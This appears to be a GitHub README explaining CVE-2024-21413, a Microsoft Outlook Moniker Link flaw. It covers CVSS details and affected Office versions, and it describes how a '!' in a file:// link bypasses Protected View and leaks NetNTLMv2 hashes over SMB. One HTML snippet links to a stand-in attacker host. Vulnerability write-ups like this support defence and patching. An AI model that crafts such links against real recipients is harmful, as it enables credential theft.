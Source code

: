 # CVE-2024-21413 — Microsoft Outlook (Moniker Link) – RCE & Credential Leak

## Overview (Easy English)
- Announced: **February 13, 2024**
- Discovered by: **Haifei Li (Check Point Research)**
- What is it? A bug in **Microsoft Outlook** where a special hyperlink (a **Moniker Link**) can bypass security and make Outlook send your **NTLM credentials** to an attacker when you click it.
- Impact: **Credential Leak** (NetNTLMv2 hash) and possible **Remote Code Execution (RCE)**
- Severity: **Critical (CVSS 9.8)**



## CVSS / Reference
| Field | Info |
|------|------|
| Publish date | February 13, 2024 |
| MS article | https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413 |
| Impact | Remote Code Execution & Credential Leak |
| Severity | Critical |
| Attack Complexity | Low |
| Scoring | 9.8 |



## Affected Office Releases
| Release | Version |
|---|---|
| Microsoft Office LTSC 2021 | affected from 19.0.0 |
| Microsoft 365 Apps for Enterprise | affected from 16.0.1 |
| Microsoft Office 2019 | affected from 16.0.1 |
| Microsoft Office 2016 | affected from 16.0.0 before 16.0.5435.1001 |



## How Outlook Normally Handles Links
- Outlook can show **HTML emails** and parse links like **http://**, **https://**.
- Outlook can also open **Moniker Links** (special URLs that can trigger apps, like file://).
- When an external app would open, **Protected View** shows a **security prompt** and blocks risky actions.
<img width="448" height="286" alt="Screenshot 2025-08-17 at 6 57 12 PM" src="https://github.com/user-attachments/assets/6ddba736-be7d-426b-90d4-60071d1db111" />

Example (normally blocked by Protected View):
```html
<a href="file://ATTACKER_MACHINE/test">Click me</a>
```
## The Bypass (Why This CVE Matters)
- If the link includes a ! in the file:// Moniker Link, Outlook’s Protected View can be bypassed.
- Then Outlook tries to access the remote path over SMB, sending the victim’s NetNTLMv2 credentials.

